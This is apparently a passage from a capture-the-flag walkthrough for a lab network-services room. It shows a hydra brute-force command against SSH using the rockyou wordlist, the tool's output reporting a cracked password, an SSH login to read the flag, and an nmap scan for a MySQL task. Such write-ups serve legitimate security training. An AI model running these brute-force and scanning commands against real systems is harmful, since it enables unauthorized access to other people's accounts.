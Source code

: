
Use `hydra` to enumerate ssh, since a valid user `administrator` is found in `msfconsole` auxiliary scan.
{% capture code %}{% raw %}hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV <ip> ssh{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal  purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-05 23:23:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://<ip>:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://administrator@<ip>:22
[INFO] Successful, password authentication is supported by ssh://<ip>:22
[22][ssh] host: <ip>   login: administrator   password: <password>
[STATUS] attack finished for <ip> (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-05 23:23:59{% endraw %}{% endcapture %} {% include code.html code=code %}

Login to `ssh` session with the cracked password and get the flag.
{% capture code %}{% raw %}ssh administrator@<ip>
cat smtp.txt
    <flag>{% endraw %}{% endcapture %} {% include code.html code=code %}


## MySQL


### Task 8 - Understanding MySQL

Use these links as references.
- [MySQL Reference](https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE_SQL_EXECUTION.html){:target="_blank"}
- [MySQL Reference](https://www.w3schools.com/php/php_mysql_intro.asp){:target="_blank"}


### Task 9 - Enumerating MySQL

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}
- [NMAP Script for MySQL](https://nmap.org/nsedoc/scripts/mysql-enum.html){:target="_blank"}
- [MySQL Exploit](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Use `nmap` to find open ports using quick scan.
{% capture code %}{% raw %}map -Pn -T4 -sS --top 2000 --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
